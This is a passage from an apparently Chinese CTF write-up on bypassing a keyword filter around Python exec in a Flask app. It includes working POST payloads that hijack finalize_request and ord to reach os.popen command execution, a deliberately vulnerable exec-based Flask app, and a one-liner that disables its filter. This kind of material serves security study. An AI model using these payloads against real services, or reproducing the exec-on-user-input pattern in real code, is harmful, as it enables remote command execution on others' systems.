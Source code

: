 即可执行任意命令

若是想获取回显，可以

```
// post 
cmd=app.view_functions[request.form[[].__doc__[1]]]=lambda:request.form[[].__doc__[0]];app.view_functions[1]=app.finalize_request;app.finalize_request=eval&amp;u=security&amp;B=self.view_functions[1](eval("__import__('os').popen('ls').read()"))
```

先把原来的finalize_request处理函数存入app.view_function字典，然后在执行返回response对象

**思路二**

直接劫持ord 绕过过滤，进行任意命令执行,空格被ban了可以用剩下的字符fuzz一下,发现*也可以使用

```
// post 
cmd=__builtins__[request.form[[].__doc__[0]]]=lambda*x:42&amp;B=ord
```

然后就是没有任何过滤的命令执行了,可以继续用上面的方法执行命令,获取回显

这个思路也可以引申一下，如果是

```
from flask import Flask, request

app = Flask(__name__)


def waf(content):
    if 'import' in content:
        return False
    else:
        return True


@app.route('/', methods=["POST"])
def security():
    secret = request.form["cmd"]
    if waf(secret):
        exec(secret)
        return "xXXxXXx"
    else:
        return "error"


if __name__ == '__main__':
    app.run(host="0.0.0.0")
```

可以这样解锁限制

```
app.view_functions['security'].__globals__['waf']=lambda*x:1
```
